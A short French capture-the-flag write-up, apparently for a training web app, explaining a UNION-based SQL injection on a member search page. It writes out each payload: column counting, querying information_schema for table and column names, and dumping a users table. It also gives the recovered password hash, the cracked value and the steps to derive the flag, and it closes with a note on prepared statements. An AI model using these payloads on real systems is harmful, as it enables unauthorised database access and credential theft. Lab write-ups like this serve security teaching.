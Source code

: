 # exploiter faille SQL

## Exploit
sur la page /page=member nous pouvons effectuer une recherche direcement dans la base de donnee \
pour exploiter la table nous avons besoin de connaitre le nom des tables et des colonne. \
dans un premier temp on cherche le nombre de colonne avec : 1 ORDER BY X \
une fois X determine on recherche le nom de la table qui nous interesse avec : 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables \
(ajouter autant de table_schema ou table_name que X) \
ensuite il nous faut determiner les colonnes de la table : 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns \
pour finir on execute notre requete avec les informations recuperees : 1 AND 1=2 UNION SELECT Commentaire, countersign FROM users \
la base de donnees nous affiche : First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! \
le mot de passe est : 5ff9d0165b4f92b14994e5c685cdce28 \
decrypte : FortyTwo \
on met en minuscule puis encrypte en Sh256 pour avoir le flag. 

## Protection :
L'utilisation de requete preparee en back  permet d'eviter l'injection sql. 

